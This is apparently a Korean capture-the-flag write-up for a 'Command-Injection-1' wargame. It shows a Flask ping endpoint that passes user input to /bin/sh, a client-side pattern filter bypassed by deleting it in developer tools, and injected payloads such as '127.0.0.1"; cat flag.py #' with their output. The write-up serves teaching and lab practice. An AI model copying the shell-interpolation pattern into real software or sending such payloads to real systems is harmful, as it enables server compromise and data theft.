 # Command-Injection-1
이번 문제는 Command Injection이 존재하는 워게임 문제인 Command Injection-1 을 풀어본다.
목표는 대상 호스트 내에 존재한 flag.py 파일 내의 flag를 회득하는 것이다. `/ping` 엔드포인트에서는 핑을 특정호스트에 ping 패킷을 보내는 기능을 제공하고 있음을 확인할 수 있다.
```python
@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')
```
subprocess.check_output 함수를 이용해 /bin/sh에서 cmd 명령을 실행시키고, 결과 출력변수 output에 저장한다 
1. 명령어 실행중 예외 발생하지 않으면 결과 출력을 utf-8로 디코딩 후에 ping_result.html 템플릿과 함께 렌더링후에 반환
2. 명령 실행후 5초를 초과하면 subprocess.TimeoutExpried 예외 발생 Timeout ! 출력
3. 실행 오류 발생시 subprocess.CalledProcessError 예외 발생, 해당 오류 메시지 출력

```
127.0.0.1"; ls #
```
이렇게 핑을 보내면 요청한 형식과 일치시키세요.라는 문자열이 발생되며 ping을 보내지 못하게 되는데 개발자 도구를 통해 핑을 보내는 부분에  input태그의 pattern 속성이 설정되어있음을 확인했다. 사용가능한 정규 표현식은 대소문자 영어, 숫자, `.`, 글자 수 5~20자 가 가능하다
`<input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required="">`
하지만 이 필터링은 서버단에서 일어나는 검증이 아닌, 클라이언트 단에서 일어나는 검증이기 때문에 필터링 우회가 가능하다

`<input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" required="">` 
이렇게 pattern 속성을 지워준다.

</br>

문제에 의하면 flag.py라는 파일이 있다는데 그것을 확인하기 위해서 다시 127.0.0.1"; ls # 를 실행 시켜준다. 아래는 실행 시킨 후의 출력된 결과이다.

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.029 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.030 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.034 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.029/0.031/0.034 ms
__pycache__
app.py
flag.py
requirements.txt
static
templates
```
flag.py 파일이 보인다! 저 파일을 그대로 읽기 위해서 cat 명령어를 사용한다
s
```
127.0.0.1"; cat flag.py # 

PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.024 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.047 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.033 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.024/0.034/0.047 ms
FLAG = 'DH{flag!!!!!!!!!!!!!!!!!!!!!!}'
```
